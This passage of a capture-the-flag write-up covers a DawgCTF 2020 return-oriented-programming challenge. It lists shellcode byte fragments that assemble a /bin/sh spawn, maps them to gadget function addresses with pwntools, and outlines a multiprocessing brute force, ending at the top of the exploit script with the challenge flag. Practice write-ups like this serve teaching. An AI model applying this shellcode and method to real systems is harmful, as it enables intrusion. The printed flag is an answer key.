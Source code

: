 ```python
    return r
```

The thing that took the most amount of time here was getting the buffering correct. I suspect that most people that gave up on 
this challenge just to read the writeup were just getting the buffering messed up.

Next step is to pull out the byte sequeces of all the 7 functions that alter the shellcode. I pulled them out by hand:

```python
loot = '\xc0\x40\xcd\x80'
lonely = '\xc1\x89\xc2\xb0'
tilted = '\x31\xc0\x50\x68'
snobby = '\x68\x2f\x62\x69'
dusty = '\x0b\xcd\x80\x31'
junk = '\x2f\x2f\x73\x68'
grove = '\x6e\x89\xe3\x89'
```

It will also be nice to have a map of the byte sequences to the address of the corresponding function:

```python
e = ELF('./rop')

# ...

m = {
    grove: e.sym.greasy_grove,
    junk: e.sym.junk_junction,
    dusty: e.sym.dusty_depot,
    snobby: e.sym.snobby_shores,
    tilted: e.sym.tilted_towers,
    lonely: e.sym.lonely_lodge,
    loot: e.sym.loot_lake,
}
```

We now have everything we need to start brute forcing the shellcode sequences. I decided to use 
itertools.permutations to get the permutations of the byte sequences. From there I used python's
multiprocessing library to make a worker Pool. Making this multiprocessing is essential for having
this brute force approach be viable. If this was single threaded, assuming that each guess of the 5040
different sequences takes 1.5 seconds to test, then the runtime would be `5040 * 1.5 = 7560 seconds = 126 minutes`.
On my machine this script runs in 7 seconds. Yay multithreading! 

With all the pieces, we can put together a full script:

```python
#!/usr/bin/python2

"""
John Cunniff
NYUSEC
DawgCTF 2020: Where we roppin boys? (350)

flag: DawgCTF{f0rtni9ht_xD}
"""

from pwn import *
import itertools
import time
import os
import multiprocessing

local = 1
```